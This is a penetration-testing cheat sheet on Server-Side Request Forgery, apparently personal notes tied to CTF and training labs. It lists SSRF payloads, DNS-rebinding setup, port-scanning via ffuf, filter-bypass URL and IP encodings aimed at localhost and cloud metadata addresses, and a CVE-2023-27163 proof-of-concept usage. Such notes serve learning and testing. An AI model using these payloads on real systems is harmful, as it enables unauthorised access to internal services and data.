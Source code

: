 # Server-Side Request Forgery (SSRF)

<div class="row row-cols-lg-2"><div>

#### Common SSRF

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

The most common example of a SSRF is to access a remote server. This may expose internal headers, be exploited for a DoS, or further exploited to map and access internal services.

```text!
GET /?download=https://<burp suite collaborator domain>
```

#### SSRF With Redirection

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

While mainly used to bypass filters, we can use HTML or PHP redirections. Python "requests" doesn't follow redirections by default.

```html!
<!-- input: /?download=https://example.com, returns 127.0.0.1 -->
<?php header('Location: http://127.0.0.1/'); ?>
```

#### DNS Rebinding

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

While mainly used to bypass filters, we can rebind a domain to point to another domain or IP dynamically <small>(we abuse of a low TTL)</small>. 

* [rebinder](https://lock.cmpxchg8b.com/rebinder.html) <small>(website, TTL=10)</small>
* [DNSrebinder](https://github.com/mogwailabs/DNSrebinder) <small>(0.1k ⭐)</small>
* [FakeDns](https://github.com/Crypt0s/FakeDns) <small>(0.6k ⭐, TTL>=0)</small>
* [singularity](https://github.com/nccgroup/singularity) <small>(1.1k ⭐, web client and GOLang server)</small>.
* ``s-1.1.1.1-127.0.0.1-<unique_seed>-fs-e.d.rebind.it``

<details class="details-n">
<summary>Example Scenario</summary>

A webserver makes two SSRF calls, the first to check if resource is valid, the second to process the resource. 

We will create a domain called `rebinding.example.com` record pointing to a DNS server that we own `ns1337.example.com YOUR_SERVER_IP` on which the script will run.

```
rebinding IN NS ns1337.example.com.
ns1337 IN A YOUR_SERVER_IP
```

Disable any service using port 53. Install [FakeDns](https://github.com/Crypt0s/FakeDns).

```shell!
$ DEST="$HOME/tools/fakedns"
$ git clone -b "master" https://github.com/Crypt0s/FakeDns.git $DEST
$ ln -s $DEST/fakedns.py $HOME/.local/bin/fakedns
```

For our use case, to rotate the IP between every request:

```shell!
$ cat test.conf
A rebinding.example.com 1.1.1.1,127.0.0.1
# alternative: A rebinding.example.com 1.1.1.1 0%127.0.0.1
$ fakedns -c test.conf --rebind # Run The DNS Server
```

* Input: `http://rebinding.example.com/admin`
</details>

</div><div>

#### Exploit other protocols 💰

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

A few protocols aside from HTTPS may yield results.

* `ftp://` to connect to a FTP server
* `file://some/file/on/the/target` when supported ([files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md))

<br>

#### Access Internal Services 🗺️

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![surfer](../../../../_badges/thm-p/surfer.svg)](https://tryhackme.com/r/room/surfer)

You may be able to query internal IPs or internal websites. Aside from localhost, make sure to test interesting IPs in cloud environments.

<br>

#### Mapping ports/services 🗺️

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You can use fuzzing to enumerate all ports:

```ps
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small> to perform more advanced attacks.
</div></div>

<hr class="sep-both">

## SSRF Filter Bypass

<div class="row row-cols-lg-2"><div>

#### SSRF Filter Bypass — Starting with

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

A filtering "starting with" without a trailing slash can be bypassed:

* `https://example.com.malicious.website`
* `https://example.com@malicious.website`
* `https://example.com#malicious.website`
* `https://example.com?malicious.website`
* `https://example.com/&malicious.website`
* `https://example.com/;malicious.website`

🛡️ Add a trailing slash to any starting with rule.

<br>

#### SSRF Filter Bypass — IP Filtering

[![modern_web_exploitation_techniques](../../../../_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)
[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![ssrfhr](../../../../_badges/thm/ssrfhr.svg)](https://tryhackme.com/r/room/ssrfhr)

There are multiple representations of `127.0.0.1` or `169.254.169.254`.

*  `0`, `00`, `000[...]0`, `0.0.0.0` (any IP, which may be localhost)
* `2130706433` (decimal), `017700000001` (octal), `0x7f000001` (hex)
* `127.1` (IP shortening), `127.00[...]00.1` (IP prolonging)
* `::1`, `::ffff:127.0.0.1` (IPV6)

Common domains for convenience: [127.0.0.1.nip.io](http://127.0.0.1.nip.io), [localtest.me](http://localtest.me), [lvh.me](http://lvh.me), [firefox.fr](http://firefox.fr/).

For all IPs, use: [rebinder](https://lock.cmpxchg8b.com/rebinder.html) with two times the same IP.
</div><div>

#### SSRF Filter Bypass — HTTP Parser Confusion 🐐

In Python, the `requests` module uses a old version of URLLIB. The following URL `"https://example.com\@@127.0.0.1/../flag"` is interpreted differently between `requests` and `urllib` ([src](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)):

* `host=127.0.0.1\@@example.com path=/../flag` with URLLIB3+
* `host=127.0.0.1 path=/@@example.com/../flag` with URLLIB3

With this trick, you can bypass this dummy code:

```py
URL = "https://127.0.0.1\@@example.com/../flag"
hostname = urllib.parse.urlparse(URL)
# Will verify 127.0.0.1\@@example.com
if hardened_check_on_hostname(hostname):
    raise Exception()
# Will fetch 127.0.0.1/flag
print(requests.get(URL).text)
```

#### SSRF Filter Bypass — Open Redirect or XSS

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

We may leverage a vulnerability such as a XSS or an Open Redirect.

#### SSRF Filter Bypass — Double URL Encoding

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

You can try double URL-encoding characters, targeting URLs that are decoded multiple times, mostly due to multiple manipulations.

#### SSRF Filter Bypass — Case Toggling

[![ssrf](../../../../_badges/ps-course/ssrf.svg)](https://portswigger.net/web-security/ssrf)

You can try toggling the case for case-insensitive hosts.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.03k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # sent to listener URL
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:fport 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```py
ip = socket.gethostbyname("example.com") # extracted from input
ip = ipaddress.ip_address(ip)
if ip in ipaddress.ip_network('127.0.0.0/8'): # check others!!!
    return False
if ipaddress.ip_address(ip).is_loopback:
    return False # only check if 127.0.0.1
```
</div><div>
</div></div>